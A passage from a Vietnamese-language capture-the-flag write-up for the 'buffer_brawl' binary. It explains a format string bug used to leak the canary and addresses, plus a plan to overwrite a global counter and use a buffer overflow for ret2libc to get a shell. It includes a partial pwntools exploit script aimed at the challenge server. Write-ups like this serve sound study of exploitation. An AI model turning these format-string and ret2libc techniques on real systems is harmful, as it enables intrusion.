 option3 uppercut : 

option này cũng tương tự 2 option trước , nó sẽ trừ 3 với biến global của ta và cũng gọi hàm ```stack_check_up```

![image](https://hackmd.io/_uploads/SyoDdjbNJe.png)


option 4 ```slip``` : 

read 29 byte vào v1[40] và tiếp theo là xuất hiện bug fsb -> ta có thể leak được mọi thứ (canary,exe,libc) và cũng bypass được các biện pháp bảo vệ(PIE,ASLR,CANARY) 

![image](https://hackmd.io/_uploads/B1fsOi-Vye.png)

option5 `TKO` : 

1 hàm rác không cần quan tâm

![image](https://hackmd.io/_uploads/S1nxYoZNJx.png)


EXPLOIT   : 


- target của bài này khá rõ ràng , chỉ cần làm biến global từ 100 thành 13 thì ta có thể sử dụng bug BOF -> ret2libc để get_shell

- muốn biến ```stack_life_points``` này về giá trị 13 thì có khá nhiều cách , ta có thể gọi option3 (option này trừ biến global đi 3 đơn vị) , tuy nhiên ta sẽ đi 1 cách dễ hơn vì cách đầu phải gọi hàm đó khá nhiều lần , ta sẽ sử dụng option4 , option này có bug fsb -> ta có thể thay đổi giá trị của bất kì địa chỉ nào 

- ta cần chú ý là khi thay đổi giá trị thì đi vào 1 trong 3 option đầu thì nó sẽ trừ thêm tương ứng là (1,2,3) nên cần thay đổi giá trị sao cho hợp lý , nếu gọi option1 thì ```stack_check_up``` phải là 14 , option2 thì ```stack_check_up``` là 15 và option3 thì ```stack_check_up``` phải được thay đổi là 16

- ta cũng cần leak libc + canary để có thể ret2libc 


script : 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./buffer_brawl_patched')
libc = ELF('./libc6_2.35-0ubuntu3.8_amd64.so')
#p = process()
p = remote('buffer-brawl.chal.wwctf.com',1337)
#gdb.attach(p,gdbscript='''
#           b*slip+51
#           brva 0x00000000000013F8
#           brva 0x0000000000001464
#           ''')

target = 0x0000000000004010

p.sendlineafter(b'> ',b'4')
#####leak exe and canary######
p.send('%13$p|%27$p|')

p.recvuntil(b'left?')
p.recvline()
exe_leak = int(p.recvuntil(b'|')[:-1],16)
canary = int(p.recvuntil(b'|')[:-1],16)

log.info(f"exe leak {hex(exe_leak)}")
```